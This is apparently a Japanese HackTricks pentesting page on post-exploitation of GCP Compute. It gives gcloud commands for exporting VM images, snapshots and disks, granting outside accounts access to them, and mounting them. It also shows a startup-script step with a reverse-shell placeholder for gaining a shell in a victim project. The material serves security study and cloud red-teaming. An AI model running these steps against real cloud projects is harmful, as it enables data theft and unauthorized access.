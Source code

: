 # GCP - Compute Post Exploitation

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**する。
- **ハッキングトリックを共有するためにPRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出する。**

</details>

## Compute

ComputeおよびVPC（ネットワーキング）の詳細については、以下をチェックしてください：

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### イメージのエクスポートとローカルでの検査

これにより、攻撃者は既存のイメージ内に含まれるデータにアクセスしたり、実行中のVMの新しいイメージを作成してそのデータにアクセスしたりできます。

VMイメージをバケットにエクスポートしてから、次のコマンドでローカルにダウンロードしてマウントすることが可能です：

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

このアクションを実行するために、攻撃者はストレージバケットに対する特権と、確実に**cloudbuildに対する特権**が必要です。なぜなら、この**サービス**がエクスポートを実行するように求められるからです。\
さらに、これが機能するためには、codebuild SAとcompute SAに特権付与の権限が必要です。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` には次の権限が必要です:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

そしてSA `<project-id>-compute@developer.gserviceaccount.com` には次の権限が必要です:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### スナップショットとディスクのローカルエクスポートと検査

スナップショットとディスクを直接エクスポートすることはできませんが、**スナップショットをディスクに変換し、ディスクをイメージに変換**し、**前のセクション**に従ってそのイメージをローカルで検査することは可能です

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### イメージを検査してVMを作成する

攻撃者がイメージを作成した場所から**イメージに保存されているデータ**または**実行中のVM内部**にアクセスすることを目的として、イメージに外部アカウントへのアクセス権限を付与することが可能です：
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
そして、それを元に新しいVMを作成します：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
もしイメージに対する外部アカウントアクセスを与えられなかった場合、被害者のプロジェクトでそのイメージを使用してVMを起動し、メタデータを実行して逆シェルにアクセスすることができます。パラメータを追加してイメージにアクセスします。
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### スナップショット/ディスクの検査とVMへのアタッチ

**ディスクやスナップショットに保存されたデータにアクセスすることを目的として、スナップショットをディスクに変換し、ディスクをイメージに変換して前の手順に従うことができます。**

または、**外部アカウントにディスクへのアクセス権限を付与**することができます（開始点がスナップショットの場合はスナップショットにアクセス権限を付与するか、それからディスクを作成します）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**インスタンスにディスクをアタッチ**します：
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM内のディスクをマウントします：

1. **VMにSSH接続**します：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **ディスクを特定**します：VM内に入ったら、ディスクデバイスをリストアップして新しいディスクを特定します。通常、`/dev/sdb`、`/dev/sdc`などとして見つけることができます。
3. **ディスクをフォーマットしてマウント**します（新しいまたは生ディスクの場合）：
*   マウントポイントを作成します：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   ディスクをマウントします：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

スナップショットまたはディスクに外部プロジェクトへのアクセス権限を与えることができない場合は、これらのアクションをスナップショット/ディスクと同じプロジェクト内のインスタンスで実行する必要があるかもしれません。
